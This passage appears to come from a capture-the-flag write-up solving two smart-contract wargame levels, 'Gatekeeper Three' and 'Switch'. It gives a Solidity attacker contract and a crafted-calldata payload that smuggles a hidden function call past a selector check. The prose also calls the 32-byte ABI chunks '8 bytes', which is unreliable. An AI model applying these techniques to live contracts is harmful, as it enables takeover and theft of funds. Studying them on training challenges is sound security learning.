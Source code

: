 ### 28. Gatekeeper Three

This is a fairly simple challenge, I don't know why its difficulty is rated 3/5. There are three gates to bypass:

1. Gate 1: Claim ownership by calling the mis-spelled constructor `construct0r`, and use a intermediary contract to bypass the `tx.origin != owner` check.
2. Gate 2: Put everything in 1 transaction and they will share the `block.timestamp`.
3. Gate 3: Send the contract some ether while not implementing a `receive()` function so it cannot receive funds.

```sol
contract GatekeeperThreeAttacker {

    GatekeeperThree challenge;

    constructor(address payable addr) payable {
        challenge = GatekeeperThree(addr);
    }

    function attack() public {
        challenge.construct0r();
        challenge.createTrick();
        challenge.getAllowance(block.timestamp);
        (bool success, ) = payable(address(challenge)).call{value: 0.002 ether}("");
        require(success, "Failed to transfer eth");
        challenge.enter();
    }

}
```

### 29. Switch

To solve this challenge, we must know how `calldata` is encoded and how it is deciphered.

Read the official docs for more details: https://docs.soliditylang.org/en/v0.8.21/abi-spec.html#examples

For a normal `turnSwitchOff()` call, the `calldata` for `flipSwitch` would be:
1. First 4 bytes: Function selector for `flipSwitch`
2. Next 8 bytes: Location of `calldata` for `turnSwitchOff()` (0x20)
3. Next 8 bytes: Length of `calldata` for `turnSwitchOff()` (0x04)
4. Next 8 bytes: `calldata` for `turnSwitchOff()` (Function selector)

This would pass the selector check at bytes 68. However, to pass the challenge, we must hide a real `turnSwitchOn()` while still having the selector for `turnSwitchOff()` at bytes 68. See below code for details.


```js
const flipSelector = challenge.interface.encodeFunctionData("flipSwitch", ["0x"]).slice(2, 10);
const onSelector = challenge.interface.encodeFunctionData("turnSwitchOn", []).slice(2, 10);
const offSelector = challenge.interface.encodeFunctionData("turnSwitchOff", []).slice(2, 10);

const payload = "0x" + flipSelector // Function selector for `flipSwitch`
  + ("0".repeat(62) + "60")         // Location of calldata
  + ("0".repeat(64))                // Dummy buffer to bypass `offSelector` check in modifier
  + offSelector + ("0".repeat(56))  // Function selector for `offSelector`
  + ("0".repeat(63) + "4")          // Length of calldata (4 bytes for function selector)
  + onSelector + ("0".repeat(56));  // Function selector for `onSelector`

await eoa.sendTransaction({
  to: await challenge.getAddress(),
  data: payload,
})
```